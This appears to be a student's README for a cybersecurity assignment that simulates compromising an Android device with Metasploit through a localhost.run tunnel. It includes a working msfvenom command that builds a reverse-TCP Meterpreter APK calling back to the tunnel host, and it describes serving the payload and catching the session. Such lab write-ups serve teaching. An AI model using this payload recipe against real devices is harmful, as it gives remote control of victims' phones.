



# Metasploit Android Simulation via Cloud Tunneling

This repository contains the complete simulation process for the cybersecurity assignment.

## Step-by-Step Process with Screenshots

### Step 1: Secure Tunnel Activation
Activated an alternative secure cloud tunnel for remote port forwarding using localhost.run.


### Step 2: Malware Generation
Generated the Android payload via MSFvenom embedding the tunnel host.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=cb87cfaf69bff.lhr.life LPORT=80 -o assignment_ngrok.apk
```


### Step 3: Listener & Web Server Setup
Configured Python HTTP server to host the payload and setup Metasploit multi-handler.


### Step 4: Successful Meterpreter Session
Successfully bypassed network isolation and opened the reverse TCP Meterpreter session.

